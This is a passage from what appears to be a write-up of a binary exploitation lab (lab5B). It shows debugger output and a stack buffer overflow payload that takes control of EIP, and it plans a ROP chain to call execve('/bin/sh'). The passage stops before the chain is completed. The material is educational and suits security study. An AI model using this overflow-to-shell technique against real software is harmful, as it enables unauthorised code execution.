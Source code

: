 ```nasm
[------------------------------------stack-------------------------------------]
0000| 0xbffff6d0 ('C' <repeats 27 times>)
0004| 0xbffff6d4 ('C' <repeats 23 times>)
0008| 0xbffff6d8 ('C' <repeats 19 times>)
0012| 0xbffff6dc ('C' <repeats 15 times>)
0016| 0xbffff6e0 ('C' <repeats 11 times>)
0020| 0xbffff6e4 ("CCCCCCC")
0024| 0xbffff6e8 --> 0x434343 ('CCC')
0028| 0xbffff6ec --> 0x80eb00c --> 0x8067b30 (<__stpcpy_sse2>:  mov    edx,DWORD PTR [esp+0x4])
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
Ok, fixed. 

## ROP Chain

Now, we need to create our ROP chain. Basically, we can do something like this `execve("/bin/sh/", 0, 0);` using the [syscall](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) **11** (or `0xb` in hexadecimal). It could look like this, but it will depend on the gadgets we will find in the executable:

```nasm
xor eax, eax
xor ecx, ecx
xor ebx, ebx
mov eax, 0x0b
mov ebx, <ptr to "/bin/sh">
int 0x80
```

Sadly, we don't have any reference to "/bin/bash" or "/bib/sh" in the binary.

```bash
$ gdb -q ./lab5B
Reading symbols from ./lab5B...(no debugging symbols found)...done.
gdb-peda$ searchmem "/bin/sh"
Searching for '/bin/sh' in: None ranges
Not found
gdb-peda$ searchmem "/bin/bash"
Searching for '/bin/bash' in: None ranges
Not found
```

But we can put it on the stack ourselves.

```nasm
gdb-peda$ r < <(python -c "print(140 * 'A' + 'BBBB' + '/bin/sh')")
Starting program: /levels/lab05/lab5B < <(python -c "print(140 * 'A' + 'BBBB' + '/bin/sh')")
Insert ROP chain here:

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x41414141 ('AAAA')
ECX: 0xfbad2088
EDX: 0x80ec4e0 --> 0x0
ESI: 0x0
EDI: 0x41414141 ('AAAA')
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff6d0 ("/bin/sh")
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
```
